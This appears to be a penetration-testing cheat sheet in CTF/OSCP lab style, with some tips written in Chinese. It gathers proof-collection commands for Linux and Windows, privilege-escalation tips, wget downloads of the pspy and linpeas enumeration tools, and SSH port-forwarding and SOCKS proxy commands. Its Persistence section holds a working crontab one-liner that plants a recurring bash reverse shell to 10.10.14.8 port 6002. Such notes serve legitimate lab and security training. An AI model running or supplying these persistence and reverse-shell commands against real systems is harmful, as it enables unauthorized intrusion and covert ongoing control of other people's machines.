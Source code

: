 # Proof

_Linux_

```bash
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

_Windows_

```powershell
 echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```


# Privilege Escalation

tips1: pspy发现的定时任务命令，可以用grep搜索一下，可能隐藏在某个脚本文件中。
tips2: 查看ls命令借助--full-time这个flag可以判断哪些文件，人为修改过
tips3: tmux session attach

# Download Tool
pspy64
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

pspy32
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

linpeas
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
# Persistence

_Crontab_

```bash
(crontab -l ; echo "*/3 * * * *   	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

# Port Forward

## SSH

```bash
# local port forwarding

# the target host 192.168.0.100 is running a service on port 8888

# and you want that service available on the localhost port 7777

ssh -L 7777:localhost:8888 user@192.168.0.100

# remote port forwarding

# you are running a service on localhost port 9999

# and you want that service available on the target host 192.168.0.100 port 12340

ssh -R 12340:localhost:9999 user@192.168.0.100

# Local proxy through remote host

# You want to route network traffic through a remote host target.host

# so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:12001

ssh -C2qTnN -D 12001 user@target.host
```